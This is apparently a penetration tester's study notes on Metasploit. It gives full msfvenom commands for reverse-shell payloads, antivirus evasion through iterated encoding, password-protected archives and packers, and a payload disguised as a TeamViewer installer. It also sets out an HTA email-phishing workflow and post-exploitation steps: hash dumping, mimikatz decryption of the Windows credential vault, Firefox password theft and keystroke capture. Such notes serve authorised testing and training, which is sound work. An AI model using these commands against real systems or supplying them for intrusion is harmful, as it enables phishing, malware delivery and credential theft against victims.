

# Metasploit



> Notes from practice and HTB Academy course on Metasploit

- `sudo apt update && sudo apt install metasploit-framework` install
- `msfconsole` launch metasploit
- `msfconsole -q` launch without banner

## Architecture

- `/usr/share/metasploit-framework` all files are here (in parrot)
- `<No.> <type>/<os>/<service>/<name>` Syntax of a module

### Type

|Type|Description|
|----|-----------|
|Auxiliary|Scanning, fuzzing, sniffing, and admin capabilities. Offer extra assistance and functionality.|
|Encoders|Ensure that payloads are intact to their destination.|
|Exploits|Defined as modules that exploit a vulnerability that will allow for the payload delivery.|
|NOPs|(No Operation code) Keep the payload sizes consistent across exploit attempts.|
|Payloads|Code runs remotely and calls back to the attacker machine to establish a connection (or shell).|
|Plugins|Additional scripts can be integrated within an assessment with msfconsole and coexist.|
|Post|Wide array of modules to gather information, pivot deeper, etc.|

## Search for an exploit

- `search exploit name`
- `help search` more details on how to use the help command

## Using a module

- `show options` to see what we need to set
- `set RHOST 10.10.10.10` to set a target
- `setg` to set an option permanently until the program is restarted
- `run` or `exploit` to run our exploit once options are set
- We can `grep` in msfconsole if we need to filter our results example: `grep meterpreter show payloads`
- We can use `ifconfig`inside as well if we do not remember our ip for the LHOST

## msfvenom

### Evasion

#### Encoders for evasion

Encoding the payload in different formats could help with the AV detection.  
[Shikata Ga Nai (SGN)](https://www.fireeye.com/blog/threat-research/2019/10/shikata-ga-nai-encoder-still-going-strong.html) is one of the most utilized Encoding schemes today because it makes payloads hard to detect.  
Example `msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai`  
Or `msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai`  
We can iterate the encoding scheme to have more chance of being undetected. `msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe` Here with -i we iterate 10 times.  

- If we register a free account on virus total we can get an API key and use `msf-virustotal` to check if our payloads are detected. Than we can check our payload this way `msf-virustotal that we can use with an API key to analyze our payloads. However, this requires free registration on VirusTotal`

#### Archives

We can archive our payload and password protect the archive.

- `rar a ~/test.rar -p ~/test.js`
- `mv test.rar test` we remove the rar extension
- `rar a test2.rar -p test` we archive it again and remove the rar extension again
- This is an excellent way to transfer data both to and from the target host.

> This might raise a flag in the AV mentioning that the file could not be scanned because it was password protected.

#### Packers

The term Packer refers to the result of an executable compression process where the payload is packed together with an executable program and with the decompression code in one single file. When run, the decompression code returns the backdoored executable to its original state, allowing for yet another layer of protection against file scanning mechanisms on target hosts. This process takes place transparently for the compressed executable to be run the same way as the original executable while retaining all of the original functionality. In addition, msfvenom provides the ability to compress and change the file structure of a backdoored executable and encrypt the underlying process structure.

- Popular packer software: UPX packer, The Enigma Protector, MPRESS, Alternate EXE Packer, ExeStealth, Morphine, MEW, Themida.
- [PolyPack project](https://jon.oberheide.org/files/woot09-polypack.pdf)

## Catch a shell with meterpreter

### Generate a payload with msfvenom

`msfvenom --list payloads | grep meterpreter`

### List formats

`msfvenom --list formats`

### To generate payload take in account

- Target OS (Win, Linux, Mac)
- Language you need (Python, PHP, ...)
- Netwok connection types (TCP, HTTPS,...)

### Catch the shell

`use exploit/multi/handler`
If you want meterpreter commands choose type of payload with meterpreter
Set `LHOST` and `LPORT` and `run` to catch the shell

### Meterpreter Commands

You can see this when typing `help`

```bash
meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
```

Note: the commands can change depending on your version of meterpreter

#### Core commands

```bash
background: Backgrounds the current session
exit: Terminate the Meterpreter session
guid: Get the session GUID (Globally Unique Identifier)
help: Displays the help menu
info: Displays information about a Post module
irb: Opens an interactive Ruby shell on the current session
load: Loads one or more Meterpreter extensions (Kiwi for example)
migrate: Allows you to migrate Meterpreter to another process
run: Executes a Meterpreter script or Post module
sessions: Quickly switch to another session
```

#### File system commands

```bash
cd: Will change directory
ls: Will list files in the current directory (dir will also work)
pwd: Prints the current working directory
edit: will allow you to edit a file
cat: Will show the contents of a file to the screen
rm: Will delete the specified file
search: Will search for files
upload: Will upload a file or directory
download: Will download a file or directory
```

#### Networking commands

```bash
arp: Displays the host ARP (Address Resolution Protocol) cache
ifconfig: Displays network interfaces available on the target system
netstat: Displays the network connections
portfwd: Forwards a local port to a remote service
route: Allows you to view and modify the routing table
System commands
clearev: Clears the event logs
execute: Executes a command
getpid: Shows the current process identifier
getuid: Shows the user that Meterpreter is running as
kill: Terminates a process
pkill: Terminates processes by name
ps: Lists running processes
reboot: Reboots the remote computer
shell: Drops into a system command shell
shutdown: Shuts down the remote computer
sysinfo: Gets information about the remote system, such as OS
```

#### Others Commands

```bash
idletime: Returns the number of seconds the remote user has been idle
keyscan_dump: Dumps the keystroke buffer
keyscan_start: Starts capturing keystrokes
keyscan_stop: Stops capturing keystrokes
screenshare: Allows you to watch the remote user's desktop in real time
screenshot: Grabs a screenshot of the interactive desktop
record_mic: Records audio from the default microphone for X seconds
webcam_chat: Starts a video chat
webcam_list: Lists webcams
webcam_snap: Takes a snapshot from the specified webcam
webcam_stream: Plays a video stream from the specified webcam
getsystem: Attempts to elevate your privilege to that of local system
hashdump: Dumps the contents of the SAM database
```

### Example of shells

#### EXE shell

- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f exe > shell.exe`

#### Using powershell

- Generate the script with `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACK-MACHINE-IP LPORT=PORT -f psh -o shell.ps1`
- Serve it to the target with `python3 -m http.server port`
- Set up your listener on msfconsole `use multi/handler` `set payload windows/x64/meterpreter/reverse_tcp` set also LHOST and LPORT
- `exploit -j`
- run the exploit on the target you should have a shell
- list your sessions with `sessions`
- Interact with the desired session using `sessions -i number-of-session`

## HTA Email Phishing

### Create the payload with msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP-OF-ATTACK-MACHINE LPORT=443 -f hta-psh -o payload.hta
```

### Set up metasploit

- `msfconsole`
- `use exploit/multi/handler`
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set LHOST IP-OF-ATTACK-MACHINE`
- `set LPORT 443`
- `exploit -j`

### Host the file

- Launch this in the folder where the payload is `python3 -m http.server 80`

### Send the phishing email

- We can now send an email with a link to our reverse shell `http://IP-OF-ATTACK-MACHINE/name-of-your-script.hta`
- When the phishing receptient will execute the file we will get a reverse shell

### Catch your shell and interact

- In your metasploit shell launch `sessions`
- We should see a new meterpreter sessions from our taget machine
- To interact with it we can do `sessions -i number-of-session`

## Local Enumeration

- Let's suppose we have a shell
- We interact with it using `sessions -i number-of-session` (type `sessions` to list the available sessions)
- `sysinfo` will give info on win version, architecture etc
- `getuid` to have current user info
- `ipconfig` to get network info
- `arp` other information about network
- `netstat -ano` to get info on listener and other
- `ps to check processes
- `run post/windows/gather/enum_services` enumerate services
- `run post/windows/gather/enum_applications` enumerate applications
- `run post/windows/gather/enum_domains` enumerate domains (works better on msf5 than 6)
- `route` check out routes

## Dump hashes with Hashcat

- We should have a session
- We can check our privileges using `run post/windows/gather/win_privs`
- We can get getsystem if not already using `getsystem` and to check it worked we can use `getuid`
- `hashdump` will dump the hashes on the machine *Note when the hash ends with `0c089c0` it usually means that the account is probably disabled`
- `load kiwi` will load mimikatz within meterpreter
- `creds_all`
- `lsa_dump_sam` will dump hashes from the sam file

## Cracking Credential Vault with mimikatz

- We should have a session (does not have to be admin, needs to be a domain user)
- We need to upload mimikatz on the target `upload /opt/Tools/mimikatz_trunk/x64/mimikatz.exe C:\\Users\\Public\\mimikatz.exe`
- `shell`
- `cd C:\Users\Public`
- `dir /a C:\users\user\appdata\local\microsoft\credentials`
- This will list the password files, we will use the smallest on which generally the one we need.
- We launch mimikatz: `mimikatz.exe`
- `vault::cred` will let us make sure that there are creds in the vault
- `dpapi::cred /in:C:\users\user\appdata\local\microsoft\credentials\<CREDENTIAL-FILE-PREVIOUSLY-SELECTED>`
- We need to keep aside the guidMasterKey
- `exit` to exit mimikatz
- `dir /a C:\users\user\appdata\roaming\microsoft\protect` and now we can keep note of the sid value that shoudl look like this: `03/07/2022  10:31 AM    <DIR>          S-1-5-21-3390063331-4123551052-1719781121-1113`
- `dir /a C:\users\user\appdata\roaming\microsoft\protect\S-1-5-21-3390063331-4123551052-1719781121-1113` the file with the guid should be the same guid of the guidMasterKey
- `dpapi::masterkey /in:C:\users\user\appdata\roaming\microsoft\protect\S-1-5-21-3390063331-4123551052-1719781121-1113\09770ae7-8e52-48cd-8899-45bb271132e7 /rpc`
- this will output our masterkey value and should look like this: `key : 60f202bff3c6e2eaedfc4c28ac1adbdd102ec7dba401157f6f8c2056205507ed4e6d93120ebe48959751c0f2c939e515382d7ffec7bd2b129c8eb89466b31f0f`
- `cred /in:C:\users\user\appdata\local\microsoft\credentials\9FD43B9DAC2EECAA50270662B8E497D5 /masterkey:60f202bff3c6e2eaedfc4c28ac1adbdd102ec7dba401157f6f8c2056205507ed4e6d93120ebe48959751c0f2c939e515382d7ffec7bd2b129c8eb89466b31f0f`
- We will get the dc password in plaintext it should look like this:

```bash
UserName       : domain\Administrator
CredentialBlob : Password123!
```

## Dumping firefox credentials

- With an active shell session on metasploit
- `use post/multi/gather/firefox_creds`
- set SESSION to the ID of your active shell session
- `exploit`
- the files will be downloaded in the loot directory, it will be shown where to in the command line
- rename every file by checking their original name accordingly to: `key4.db`, `logins.json`, `cookies.sqlite`, `cert9.db`, `signons.sqlite`
- Download [firefox decrypt](https://github.com/unode/firefox_decrypt)
- And run it `python3 firefox_decrypt.py <msf loot directory>`
- You should see the decrypted credentials on the screen

## Databases

Databases in msfconsole are used to keep track of our results.

### Set up

- `sudo service postgresql status` check is PostgreSQL is up and running
- If not `sudo systemctl start postgresql`
- `sudo msfdb init` initiate a Database
- `sudo msfdb status` check if a db has been initiated
- `sudo msfdb run` connect to the db
- In case of problem we can reinitiate the database

```bash
msfdb reinit
cp /usr/share/metasploit-framework/config/database.yml ~/.msf4/
sudo service postgresql restart
msfconsole -q
```

### Workspaces

Can be usse to segregate the different scan results, hosts, infos, loot, etc.  

- `workspace` show the current workspace
- `workspace -a workspace-name` add a workspace
- `workspace -d workspace-name` delete a workspace
- `workspace workspace-name` to switch to a workspace
- `workspace -h` for help
- `db_import file` to import files in our database workspace
- `db_export -f xml file.xml` we can specify a format with -f. For help we can run `db_export -h`
- `hosts -h` will show help on the hosts command that we can use to see stored info in the db about the hosts.
- `services -h` same as host but for services
- `creds -h` same but for stored credentials
- `loot -h` The loot command works in conjunction with the command above to offer you an at-a-glance list of owned services and users. The loot, in this case, refers to hash dumps from different system types, namely hashes, passwd, shadow, and more.

## Plugins

- `/usr/share/metasploit-framework/plugins` is the default plugins directory for every new installation of msfconsole. If a plugin is listed here we can use it.
- `load plugin-name` to load a plugin

### Install a new plugin

- `sudo cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb` we copy our new plugin to the metasploit plugins folder.
- We can launch `msfconsole` and use our new plugin with `load pentest`

### Useful Plugins

- [DarkOperator's Metasploit-Plugins](https://github.com/darkoperator/Metasploit-Plugins.git)
- [mimikatz](https://blog.gentilkiwi.com/mimikatz)
- [Railgun](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation)
- [metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/priv/priv.rb)

## Mixins

- [Metasploit/UsingMixins](https://en.wikibooks.org/wiki/Metasploit/UsingMixins)

## Sessions

- `background` or `ctrl+z` to background a session
- `sessions` list active sessions
- `sessions -i num` to open up a specific session

### Jobs

If, for example, we are running an active exploit under a specific port and need this port for a different module, we cannot simply terminate the session using [CTRL] + [C]. If we did that, we would see that the port would still be in use, affecting our use of the new module. So instead, we would need to use the jobs command to look at the currently active tasks running in the background and terminate the old ones to free up the port.

Other types of tasks inside sessions can also be converted into jobs to run in the background seamlessly, even if the session dies or disappears.

- `jobs -h`
- `exploit -j` to run an exploit as a job we can use `exploit -h` for more help
- `jobs -l` list running jobs
- `jobs -k` kill all the running jobs

## Add a module

### Modules we found online

We might sometimes need to exploit a vulnerability that does not have a module yet in our Metasploit version.  
We can add if we have the ruby code of course (we can often find these on exploitdb or with `searchsploit`)

- We download the ruby file we need and copy it to `/usr/share/metasploit-framework/`or `.msf4/`
- We can then load them at runtime `msfconsole -m /usr/share/metasploit-framework/modules/` or after with `loadpath /usr/share/metasploit-framework/modules/`
- Or we can also just use `reload_all`

> We need to be careful with the naming convention: Always use snake-case, alphanumeric characters, and underscores instead of dashes. Like this `our_module_here.rb`

### Create our own

We can use ruby and create our own module.  
We can for instance adapt a custom python or any other type of script in ruby to use it in metasploit.

- [Documentation on rubydoc](https://www.rubydoc.info/github/rapid7/metasploit-framework)

In our script we need to include all the modules and methods for our exploit.

|Function|Description|
|--------|-----------|
|`Msf::Exploit::Remote::HttpClient`|This module provides methods for acting as an HTTP client when exploiting an HTTP server.|
|`Msf::Exploit::PhpEXE`|This is a method for generating a first-stage php payload.|
|`Msf::Exploit::FileDropper`|This method transfers files and handles file clean-up after a session with the target is established.|
|`Msf::Auxiliary::Report`|This module provides methods for reporting data to the MSF DB.|

## Resources

 What happens when I type getsystem?   
 Deep Dive Into Stageless Meterpreter Payloads - OJ Reeves   
 Modifying Metasploit x64 template for AV evasion - Joff Thyer   
 Metasploit exploit development - The series Part 1. by nanoquetz   
